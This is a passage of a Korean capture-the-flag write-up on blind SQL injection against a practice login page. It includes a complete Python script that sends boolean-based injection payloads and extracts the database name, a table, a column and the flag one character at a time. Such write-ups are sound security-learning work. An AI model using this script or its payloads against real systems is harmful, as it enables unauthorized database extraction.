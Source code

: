 - 위 페이로드를 실행한 결과, **조건이 참일 경우 `200 OK`**, 거짓일 경우 `302 리다이렉션` 응답이 발생하였다.
이를 기반으로, **Blind SQL Injection 자동화를 위한 파이썬 스크립트**를 작성해보겠다.

```python
import requests

def sqli_true(payload: str) -> bool:
    data = {
        "UserId": payload,
        "Password": "1234",
        "Submit": "Login"
    }
    r = requests.post("http://ctf2.segfaulthub.com:7777/sqli_3/login.php", data=data, allow_redirects=False)
    return r.status_code == 200

def dump_data(sql: str) -> str:
    result = ""
    for i in range(1, 50):
        for ascii_code in range(32, 127):
            payload = f"normaltic' or ascii(substr(({sql}),{i},1))={ascii_code} and '1'='1"
            if sqli_true(payload):
                result += chr(ascii_code)
                print(chr(ascii_code), end='')
                break
        else:
            break
    return result

if __name__ == "__main__":
    print("DB: ")
    db = dump_data("database()")
    print("\n")
    print("Table: ")
    table = dump_data(f"select table_name from information_schema.tables where table_schema='{db}' limit 0,1")
    print("\n")
    print("Column:")
    col = dump_data(f"select column_name from information_schema.columns where table_name='{table}' limit 0,1")
    print("\n")
    print("Flag:")
    flag = dump_data(f"select {col} from {table} limit 0,1")
    print("\n")
    print(f"Flag → {flag}")
```

- 이를 활용하여 데이터베이스 이름부터 테이블, 컬럼, 최종 데이터까지 **순차적으로 자동 추출하는 Python 스크립트**를 작성하였다.

![sqli6 flag](./screenshots/sqli6_flag.png)

**이렇게 마지막 문제의 flag까지 성공적으로 추출할 수 있었다.**

> 파이썬 자동화 스크립트: [sqli_auto.py](./sqli_auto.py)
